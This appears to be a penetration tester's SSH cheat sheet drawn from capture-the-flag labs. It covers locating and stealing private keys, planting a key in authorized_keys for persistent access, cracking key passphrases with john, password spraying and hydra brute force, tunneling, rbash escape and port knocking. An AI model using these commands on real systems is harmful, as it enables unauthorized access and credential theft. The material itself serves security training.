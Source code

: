 nmap
```
nmap -p 22 --script=ssh-hostkey,ssh-auth-methods,sshv1 <target-ip>
```

---
#### Different types and locations:
RSA
- stored on linux at `/home/anita/.ssh/id_rsa`
-  stored on windows at `C:\Users\<Username>\.ssh\id_rsa`
DSA
- stored on linux at `/home/anita/.ssh/id_dsa`
- stored on windows at `C:\Users\<Username>\.ssh\id_dsa`
ecdsa
- stored on linux at `/home/anita/.ssh/id_ecdsa`
- stored on windows at `C:\Users\<Username>\.ssh\id_ecdsa`
ed25519
- stored on linux at `/home/anita/.ssh/id_ed25519`
- stored on windows at `C:\Users\<Username>\.ssh\id_ed25519`

if LFI, check `/etc/ssh/sshd_config` to see ssh key locations

---
#### Use keys from .ssh folder in user's home directory
- make sure `id_rsa.pub` and `authorized_keys` are identical
```
md5sum id_rsa.pub
```
```
md5sum authorized_keys
```
- if hash is identical, transfer `id_rsa` file (not the .pub) to home machine and ssh in without password

---
#### Generate ssh key pair
```
ssh-keygen -t ed25519 -f ./id_ed25519
```
- key will be saved as `id_ed25519` (private key) and `id_ed25519.pub` (public key) in the current directory (`./`)
- upload `id_ed25519.pub` to target machine I want to SSH into
	- or just copy the contents to the `authorized_keys` file on remote machine:
```
cat id_ed25519.pub
```
- on local machine to copy contents for below command
on remote machine in the `/home/username` directory:
```
mkdir .ssh && cd .ssh
```
```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqwSCwB7vK26CckpfDL1D0+/z6sf42jocBMLUsbca+m kali@kali" > authorized_keys
```
- change `kali@kali` to my kali user and computer name
- run command on my kali machine:
```
ssh -i id_ed25519 matt@pilgrimage.htb
```

###### Generating rsa ssh keys in /var/www if only have www-data shell on target machine:
```
cd /var/www
```
```
mkdir .ssh
```
```
ssh-keygen -q -t rsa -N '' -C 'pam'
```
```
cp .ssh/id_rsa.pub .ssh/authorized_keys
```
```
chmod 600 .ssh/authorized_keys 
```
- then, copy private key to local host machine
```
ssh -i id_rsa www-data@10.10.10.6
```
- run from kali
---
#### Crack a private key:
- get id_ecdsa on local machine. can copy contents of private key from target if needed:
	- set correct permissions
		- `chmod 600 id_ecdsa`
```
ssh2john id_ecdsa > anita.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt anita.hash
```
- returns password
```
ssh -i ./id_ecdsa anita@192.168.164.245 -p 2222
```

---
#### spray
```
nxc ssh ip -u user -p pass
```

---
#### bruteforce
```
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.203.122 -V
```

---
#### ssh tunneling aka port forwarding:
```
ssh -L [local_port]:127.0.0.1:[remote_port] [username]@[remote_host]
```
- if port forward is blocked `channel 3: open failed: administratively prohibited: open failed` use proxychains instead:
	- add `socks4  127.0.0.1 8081` to `/etc/proxychains4.conf` in kali
	- `ssh charix@10.129.1.254 -D 8081` run from kali
	- `proxychains vncviewer 127.0.0.1:5901 -passwd secret` run from kali
		- example using vncviewer and password file

---
#### Escape rbash shell with `-t bash`
```
ssh mindy@10.129.226.162 -t bash
```
- `-t bash` instructs ssh to use bash as shell instead of whatever is default assigned in /etc/passwd
- if regular ssh command pops you into a limited -rbash shell, use this

---
#### Port Knocking
`ps -auxww` will show `/usr/sbin/knockd` running
- `cat /etc/knockd.conf` and will see openSSH sequence = 571, 290, 911
	- Put together a script to hit those 3 ports within 5 seconds to open SSH on the host and then connect in:
```
for i in 571 290 911; do
nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.129.222.16 >/dev/null
done; ssh -i id_rsa amrois@10.129.222.16
```
- might take multiple tries to run this one-liner from bash on kali host